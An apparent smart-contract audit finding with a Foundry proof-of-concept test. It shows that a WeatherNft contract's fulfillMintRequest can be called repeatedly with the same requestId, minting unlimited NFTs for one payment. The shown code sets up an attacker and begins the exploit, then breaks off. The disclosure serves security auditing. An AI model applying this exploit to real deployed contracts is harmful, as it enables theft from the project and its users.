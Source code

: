 This PoC demonstrates that `fulfillMintRequest` can be called **multiple times** with the same `requestId`, resulting in multiple NFTs minted for the same weather data and payment.

### PoC Explanation

1. An attacker initiates a mint request by calling `requestMintWeatherNFT`, paying the required mint price and emitting a `WeatherNFTMintRequestSent` event with the associated `requestId`.
2. The Chainlink oracle fulfillment is simulated, making the mint request ready for completion.
3. The attacker calls `fulfillMintRequest` with the same `requestId` to mint the first NFT.
4. The attacker calls `fulfillMintRequest` again with the **same** `requestId`, successfully minting a second NFT—despite only having paid for one mint.
5. Because there is **no mechanism to prevent multiple fulfillments** for the same `requestId`, this process can be repeated indefinitely, allowing the attacker to mint unlimited NFTs for a single payment.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.29;

import {Test, console} from "forge-std/Test.sol";
import {WeatherNft, WeatherNftStore} from "src/WeatherNft.sol";
import {LinkTokenInterface} from "@chainlink/contracts/src/v0.8/shared/interfaces/LinkTokenInterface.sol";
import {Vm} from "forge-std/Vm.sol";

contract WeatherNftForkTest is Test {
    WeatherNft weatherNft;
    LinkTokenInterface linkToken;
    address functionsRouter;
    address attacker = makeAddr("attacker");

    function setUp() external {
        weatherNft = WeatherNft(0x4fF356bB2125886d048038386845eCbde022E15e);
        linkToken = LinkTokenInterface(0x0b9d5D9136855f6FEc3c0993feE6E9CE8a297846);
        functionsRouter = 0xA9d587a00A31A52Ed70D6026794a8FC5E2F5dCb0;

        vm.deal(attacker, 1000e18);
        deal(address(linkToken), attacker, 1000e18);

        // Fund the subscription required by Chainlink Functions
        vm.prank(attacker);
        linkToken.transferAndCall(functionsRouter, 100e18, abi.encode(15459));
    }

    function test_FulfillMintRequest_MultiMint_Vulnerability() public {
        string memory pincode = "125001";
        string memory isoCode = "IN";
        bool registerKeeper = false;
        uint256 heartbeat = 12 hours;
        uint256 initLinkDeposit = 5e18;

        uint256 tokenId = weatherNft.s_tokenCounter();

        // Step 1: Attacker initiates a Weather NFT mint request
        vm.startPrank(attacker);
        linkToken.approve(address(weatherNft), initLinkDeposit);
        vm.recordLogs();
        weatherNft.requestMintWeatherNFT{value: weatherNft.s_currentMintPrice()}(
            pincode, isoCode, registerKeeper, heartbeat, initLinkDeposit
        );
        vm.stopPrank();

        // Step 2: Extract requestId from the WeatherNFTMintRequestSent event
        Vm.Log[] memory logs = vm.getRecordedLogs();
```